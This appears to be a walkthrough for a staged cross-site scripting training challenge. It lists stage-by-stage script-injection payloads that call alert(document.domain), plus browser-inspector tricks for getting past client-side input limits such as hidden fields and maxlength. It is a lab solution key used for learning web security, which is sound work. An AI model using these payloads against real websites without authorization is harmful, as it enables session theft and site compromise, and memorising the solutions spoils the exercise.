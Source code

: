## Stage #1
**Payload:** `<script>alert(document.domain)</script>`


## Stage #2
**Payload:** `"><script>alert(document.domain)</script>//`


## Stage #3
Go to inspect and change a option (e.g. USA) to `<script>alert(document.domain)</script>`
Then choose this and click search


## Stage #4
Go to inspect. You'll see a hidden input field after the select tag. Make it visible by removing `type`.
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #5
Go to inspect. You will see a input field like this:
```html
<input type="text" name="p1" maxlength="15" size="30" value="">
```
So just delete the maxlength="15" and size="30".
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

